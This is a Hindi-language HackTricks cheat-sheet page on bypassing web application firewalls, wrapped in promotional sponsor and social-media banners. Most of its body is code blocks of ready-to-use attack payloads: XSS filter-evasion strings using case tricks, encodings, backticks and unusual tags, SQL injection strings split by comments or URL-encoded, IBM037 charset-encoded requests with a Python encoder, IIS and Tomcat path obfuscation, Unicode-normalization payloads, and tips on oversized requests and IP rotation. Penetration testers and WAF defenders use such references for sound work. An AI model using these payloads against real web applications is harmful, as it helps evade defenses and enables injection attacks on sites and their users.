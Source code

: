 # WAF Bypass

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबरसिक्योरिटी कंपनी** में काम करते हैं? क्या आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे**? या क्या आप **PEASS के नवीनतम संस्करण तक पहुँच चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **[**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) में शामिल हों या [**telegram समूह**](https://t.me/peass) में या मुझे **Twitter** पर **फॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **अपनी हैकिंग ट्रिक्स साझा करें, [**hacktricks repo**](https://github.com/carlospolop/hacktricks) और [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके.**

</details>

## Regex Bypasses

फ़ायरवॉल पर regex फ़िल्टर्स को बायपास करने के लिए विभिन्न तकनीकों का उपयोग किया जा सकता है। उदाहरणों में वैकल्पिक केस, लाइन ब्रेक जोड़ना, और पेलोड्स को एन्कोड करना शामिल हैं। विभिन्न बायपास के लिए संसाधन [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) और [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html) पर पाए जा सकते हैं। नीचे दिए गए उदाहरण [इस लेख](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2) से लिए गए थे।
```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```
## Charset Encoding

Charset Encoding का उपयोग करके WAF को बायपास करना संभव है। यह तकनीक विभिन्न चरित्र सेट एन्कोडिंग्स का उपयोग करती है जैसे कि URL एन्कोडिंग, HTML एन्कोडिंग, या यहां तक कि बेस64 एन्कोडिंग, जिससे WAF को यह पहचानने में कठिनाई होती है कि भेजा गया डेटा हानिकारक है या नहीं।

उदाहरण के लिए, एक सामान्य SQL इंजेक्शन हमले के लिए उपयोग किया जाने वाला कोड `' OR '1'='1` को URL एन्कोडिंग के माध्यम से `%27%20OR%20%271%27%3D%271` में बदला जा सकता है। यदि WAF केवल सामान्य टेक्स्ट को फ़िल्टर करता है, तो एन्कोडेड पेलोड बिना पहचाने गुजर सकता है।

इसी तरह, बेस64 एन्कोडिंग का उपयोग करके, हमलावर डेटा को एक ऐसे फॉर्मेट में बदल सकता है जो WAF के लिए अपरिचित हो। इससे भी फ़िल्टरिंग प्रक्रिया को चकमा दिया जा सकता है।

यह तकनीक विशेष रूप से तब प्रभावी होती है जब WAF कॉन्फ़िगरेशन में कमजोरियां होती हैं या जब यह नए एन्कोडिंग पैटर्न को पहचानने में असमर्थ होता है।
```bash
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037")))

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```
## अस्पष्टीकरण
```bash
# IIS, ASP Clasic
<%s%cr%u0131pt> == <script>

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;
```
## Unicode संगतता

Unicode सामान्यीकरण (अधिक जानकारी [यहाँ](https://jlajara.gitlab.io/Bypass\_WAF\_Unicode)) के कार्यान्वयन पर निर्भर करते हुए, Unicode संगतता वाले वर्ण WAF को बायपास कर सकते हैं और इरादा किए गए पेलोड के रूप में कार्य कर सकते हैं। संगत वर्ण [यहाँ](https://www.compart.com/en/unicode) पाए जा सकते हैं।

### उदाहरण
```bash
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```
## आकार सीमा से अधिक

यह आम है कि क्लाउड आधारित WAFs में यदि पेलोड X आकार से बड़ा होता है, तो अनुरोध WAF द्वारा जांचा नहीं जाएगा। आप बस उन्हें बायपास करने के लिए इसका उपयोग कर सकते हैं।

### IP रोटेशन

* [https://github.com/rootcathacking/catspin](https://github.com/rootcathacking/catspin)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबरसिक्योरिटी कंपनी** में काम करते हैं? क्या आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे**? या क्या आप **PEASS के नवीनतम संस्करण तक पहुंच चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **[**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) में शामिल हों या [**telegram समूह**](https://t.me/peass) या मुझे **Twitter** पर **फॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **अपनी हैकिंग ट्रिक्स साझा करें, [**hacktricks repo**](https://github.com/carlospolop/hacktricks) और [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके.**

</details>
